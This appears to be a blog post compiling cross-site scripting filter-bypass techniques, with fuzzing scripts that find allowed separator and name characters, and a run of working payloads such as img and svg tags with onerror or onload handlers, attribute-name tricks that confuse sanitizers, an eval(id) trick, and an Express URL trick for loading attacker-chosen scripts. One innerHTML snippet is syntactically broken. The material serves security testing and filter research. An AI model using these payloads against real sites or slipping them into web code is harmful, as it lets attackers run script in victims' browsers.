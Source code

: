 ```yaml
---
layout: mypost
title: A Compilation of XSS Techniques 
categories: [web]
---
```


# Introduction

This is a list of XSS techniques with brief explanations from various payload lists, blog posts, books and tweets spread across the internet.

# Filter Bypass in HTML Tags

### Space Alternatives in Separating Tag Attributes
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<img${char}id=amongus>`;
    if (document.getElementById('amongus')) {
        console.log(`char '${char}' (hex code 0x${i.toString(16).toUpperCase()}) works`);
    }
}
```
Fuzzing with the above script, we find that the characters 0x9 (horizontal tab), 0xA (new line), 0xC (new page), 0xD (carriage return) and 0x2F (forward slash) all work in place of spaces in the above context. 

Additionally, no spaces are needed when an attribute is set to a quoted string before. Refer to example 3 to see what this means clearly.

#### Examples
*Example 1*
```html
<img/src=x/onerror=alert(1)>
```
A basic example.

*Example 2*
```html
<svg </onload ="1> alert(1)">
```
That `/` looks like it's part of a closing tag, but it isn't. In reality, it separates `<` from `onload` and creates an attribute named `<`.

*Example 3*
```html
<svg abcd=""onload=alert(1)>
```
No separation character needed.

### Symbols Allowed in Custom Tag Names
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<amongus${char}>`;
    if (!document.getElementsByTagName(`amongus${char}`)) {
        console.log(`char '${char}' (hex code 0x${i.toString(16).toUpperCase()}) does not work`);
    }
}
```
Fuzzing with the above script, we find that any non-space (or space alternative) unicode character will work as tag name characters in the above context. 

#### Examples
*Example 1*
```html
<w=" x="y>" ondblclick=confirm()>double click me!</w=">
```
A tag named `w="` to deceive some parsers. 

### Symbols Allowed in Attribute Names
```js
for(i=0;i<=0x10ffff;i++){
    let char = String.fromCodePoint(i)
    display.innerHTML = `<img id=amongus src=x ${char}_ onerror=alert(1)>`;
    if (!document.getElementById('amongus').hasAttribute(`${char}_`)) {
        console.log(`char '${char}' (hex code 0x${i.toString(16).toUpperCase()}) does not generate a character`);
    }
}
```
Fuzzing with the above script, we find that any non-space (or space alternative) unicode character will work in attribute names. If a null character (character code 0x0) is used, it will be replaced with a unicode replacement character.

#### Examples
*Example 1*
```html
<img src="/" =_=" title="onerror='alert(1)'">
```
Put yourself in the point of view of a parser, and you'll quickly see just how confusing this is. Separating each attribute to a new line, we see:
```html
<img 
    src="/" 
    =_=" title="
    onerror='alert(1)'
    "
>
```
The trick here is that we have an attribute named `=_` to deceive an equal signs parser and another attribute named `"` for confusing a quote parser.

### Javascript Scope in 'on' Attributes
The properties of an HTML element object are accessible within the `on` attributes of that HTML element in the global scope. 

#### Examples
*Example 1*
```html
<img src=x id=alert(__proto__) onerror=eval(id)>
```
The `id` property is defined on the HTMLImageElement object, so it is available in the global scope of the javascript code running from the `onerror` attribute. We further demonstrate this behaviour by alerting the `__proto__` property of our HTMLImageElement object.


### Setting innerHTML Will Always Trigger XSS
```js

element = document.createElement()
element.innerHTML = "<img src=x onerror=alert()">
// element never gets added to DOM.

```

This triggers XSS for whatever reason. Setting innerHTML of an element, even if the element literally does not exist in the DOM, will still trigger javascript execution.

### Express URL Handling

```
example.com/index.html

example.com/abcdefghijklmnop%2f..%2findex.html
```

Both of the above URLs, if sent to an express server, will return index.html.

However, in the browser, `example.com/abcdefghijklmnop%2f..%2findex.html` becomes the base URL. What this means is that relative imports will be done based off of `example.com/abcdefghijklmnop%2f..%2findex.html`. So, for example, if a script tag had `src='main.js'`, the browser would attempt to load the file from `example.com/abcdefghijklmnop%2f..%2findex.html/main.js`.

In some cases, we may be able to force `example.com/abcdefghijklmnop%2f..%2findex.html/main.js` to some valid js of our choosing. 


